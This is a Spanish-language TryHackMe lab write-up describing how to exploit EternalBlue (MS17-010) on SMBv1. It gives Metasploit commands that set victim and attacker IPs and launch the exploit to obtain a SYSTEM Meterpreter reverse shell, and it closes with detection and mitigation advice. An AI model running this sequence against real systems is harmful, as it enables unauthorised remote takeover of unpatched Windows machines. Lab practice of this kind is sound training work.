





# tryhackme-writeups
Repositorio dedicado a la documentación técnica y resolución de laboratorios en TryHackMe. Este espacio compendia mi progreso en ciberseguridad ofensiva, abarcando desde fundamentos de redes hasta técnicas avanzadas de explotación y escalada de privilegios.

# EternalBlue -- MS17-010
## ¿Que es la vulnerabilidad?
SMBv1 es un protocolo de red antiguo utilizado para compartir archivos y carpetas que carece de mecanismos modernos de seguridad. La vulnerabilidad MS17-010 (EternalBlue) permite a un atacante enviar paquetes especialmente diseñados a un servidor SMBv1, provocando un desbordamiento de memoria que permite la ejecución remota de código (RCE) con privilegios de SYSTEM sin necesidad de credenciales.

## Herramientas usadas
* Nmap: Escaneo de red y detección de vulnerabilidades mediante scripts NSE.
* Metasploit: Framework para la automatización y ejecución del exploit.
* Meterpreter: Payload dinámico para la post-explotación y control del sistema.

## Proceso paso a paso
1. Escaneo de puertos con Nmap
   
2. Identificacion del puerto 445 abierto, confirmo alguna vulnerabilidad
   
3. Verificación de la versión del sistema operativo (Windows 7/2008), que asegura la compatibilidad
   
4. Inicio de msfconsole, y busqueda del exploit ms17-010
   
   donde:
      * 🔴 Búsqueda del módulo: Se utilizó el comando search ms17-010 filtrando por tipo exploit para localizar el vector de ataque específico.
      * 🟡 Selección del Target: Como se observa en la captura (recuadro amarillo), el módulo elegido es exploit/windows/smb/ms17_010_eternalblue
      * 🟢 Sistemas Compatibles: El recuadro verde muestra que este exploit es versátil, cubriendo desde Windows 7 y Server 2008 hasta Windows 10 y Server 2012. Esto valida nuestra fase de reconocimiento previa.
      * 🔵 Verificación (Check): Es importante notar que el módulo tiene la opción Check: Yes, lo que nos permite verificar si el objetivo es vulnerable antes de lanzar el payload definitivo, reduciendo el riesgo de crashear el sistema.

5. Selección y carga del modulo de explotacion
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
   

6. Definición de Parámetros y Variables del Exploit
   ```bash
   show options
   ```
   
   Como vemos debemos setear:
   * RHOST: ip de la victima.
     ```bash
     set RHOST {ip_victim}
     ```
   * LHOST: ip del atacante.
     Aquí ya tenemos una ip verificar que sea la nuestra.
     ```bash
     set LHOST {ip_attacker}
     ```
   
8. Lanzamiento del exploit para obtener una shell de Meterpreter con privilegios máximos.
   ```bash
     exploit
     ```
   

## Perspectiva defensiva
* Detección: Monitoreo de tráfico SMB inusual y uso de firmas de IDS/IPS (como Snort o Suricata) que identifiquen          intentos de conexión MS17-010.
* Mitigación: La medida principal es deshabilitar SMBv1 en todas las máquinas y aplicar el parche de seguridad oficial     de Microsoft. Además, segmentar la red para limitar el acceso al puerto 445 mediante firewalls.

## Qué aprendi
   Comprendí la importancia crítica de mantener los sistemas actualizados y el peligro que representan los protocolos       heredados (legacy). También practiqué la transición de un escaneo de vulnerabilidades a una explotación exitosa y el     manejo básico de sesiones en post-explotación.
   
